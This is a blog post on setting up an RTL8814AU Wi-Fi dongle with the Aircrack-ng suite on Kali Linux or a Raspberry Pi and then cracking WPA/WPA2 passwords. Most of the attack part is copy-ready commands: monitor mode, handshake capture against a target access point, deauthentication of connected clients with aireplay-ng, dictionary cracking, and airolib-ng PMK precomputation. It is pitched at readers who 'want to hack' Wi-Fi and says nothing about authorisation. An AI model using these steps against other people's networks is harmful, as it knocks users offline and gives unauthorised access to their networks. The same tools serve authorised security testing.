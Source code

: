 ```yaml
---
title: Using Aircrack-ng with RTL8814AU
date: '2019-07-28'
tags: [Airmon-ng, Aircrack-ng, RTL8814AU, RTL8812AU, Wi-Fi, Kali Linux, Raspberry Pi, ARM]
type: Blog
license: CC BY-SA 4.0
---
```


For Kali Linux users who want to hack 2.4/5GHz Wi-Fi.
RTL8812AU/21AU and RTL8814AU are the best chipsets.

Here's the wifi dongle I'm going to use: [TP-LINK Archer T9UH](https://wikidevi.com/wiki/TP-LINK_Archer_T9UH)

![Archer-T9UH.png](/static/images/Archer-T9UH.png)

Here's the wifi driver I'm going to use: [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au.git)

## Installing Driver

Plug-in your Wi-Fi dongle. Execute `lsusb`.

```sh
lsusb
```

![Archer-T9UH-lsusb.png](/static/images/Archer-T9UH-lsusb.png)

Check if the device ID is supported by the [driver](https://github.com/aircrack-ng/rtl8812au/blob/v5.6.4.1/os_dep/linux/usb_intf.c#L259)

```c
{USB_DEVICE(0x2357, 0x0106), .driver_info = RTL8814A}, /* TP-LINK Archer T9UH */
```

The ID of TP-LINK Archer T9UH is `2357:0106`.

Clone the project

```sh
git clone https://github.com/aircrack-ng/rtl8812au.git
```

RTL8814AU is newer than RTL8812AU.

Some improvements come with the latest version.

Checkout to the newest git branch.

```sh
git checkout v5.6.4.1
```

The installation is pretty easy. Just use the script.

```sh
sudo apt install dkms
sudo ./dkms-install.sh
```

If you are using ARM CPU such as Raspberry Pi. Change platform in Makefile.

e.g. I'm using RPI 3 B+ with the official Raspbian OS. It's 32 bit.

```sh
sed -i 's/CONFIG_PLATFORM_I386_PC = y/CONFIG_PLATFORM_I386_PC = n/g' Makefile
sed -i 's/CONFIG_PLATFORM_ARM_RPI = n/CONFIG_PLATFORM_ARM_RPI = y/g' Makefile
```

If you are using Kali Linux. You can also install the driver from source.

```sh
sudo apt install realtek-rtl88xxau-dkms
```

## Installing Aircrack-ng

(Aircrack-ng is preinstalled in Kali Linux)

```sh
sudo apt install aircrack-ng
```

Here's the official instruction: [Installing pre-compiled binaries](https://aircrack-ng.org/doku.php?id=install_aircrack#installing_pre-compiled_binaries)

If you want to compile it on your own.

The latest stable version is 1.5.2 currently.

```sh
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
git checkout 1.5.2
```

```sh
sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

```sh
./autogen.sh
make
make install
```

## Monitoring Wi-Fi

Check interfaces

```sh
sudo airmon-ng
```

```sh
PHY	Interface	Driver		Chipset

phy0	wlan0		brcmfmac	Broadcom 43430
phy1	wlan1		88XXau		TP-Link
```

Kill all possible programs that could interfere with the wireless card.

```sh
sudo airmon-ng check kill
```

Turn wlan1(RTL8814AU) into monitor mode.

```sh
sudo airmon-ng start wlan1
```

OR

```sh
sudo iwconfig wlan1 mode Monitor
```

Then

```sh
sudo airodump-ng wlan1
```

OR indicate the band 'a' to hop 5GHz

```sh
sudo airodump-ng wlan1 -b a
```

## Crack WPA/WPA2 Wi-Fi Password

Capture Data

```sh
sudo airodump-ng -c 36 –d XX:XX:XX:XX:XX:XX -w hack wlan1
```

De-authenticate the connected clients with `aireplay-ng`

`-0` means de-auth, 50 means 50 counts.  
`-a` sets Access Point MAC address.  
`-c` sets destination MAC address.  

```sh
sudo aireplay-ng -0 50 -a XX:XX:XX:XX:XX:XX -c [Client MAC Address] wlan1
```

You'll get a WPA handshake

![WPA-handshake.png](/static/images/WPA-handshake.png)

Crack password with dictionary-attack

```sh
aircrack-ng -b XX:XX:XX:XX:XX:XX hack-01.cap -w /path/to/wordlist
```

Here is a project on GitHub for dictionary-attack: [Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)

## Speed up Crack with Airolib-ng

>Airolib-ng is an aircrack-ng suite tool designed to store and manage essid and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking.

### Download Passwords dictionary

[Probable-Wordlists Downloads](https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md)

### Setting up the database

#### Create SSID list

```sh
airolib-ng wpaDatabase --import essid ssidlist.txt
```

#### Create Password list

```sh
airolib-ng wpaDatabase --import passwd passwords.txt
```

#### Clean Database

```sh
airolib-ng wpaDatabase --clean all
```

#### Create your PMK’s

```sh
airolib-ng wpaDatabase --batch
```

#### Cracking

```sh
aircrack-ng -r wpaDatabase hack-01.cap
```

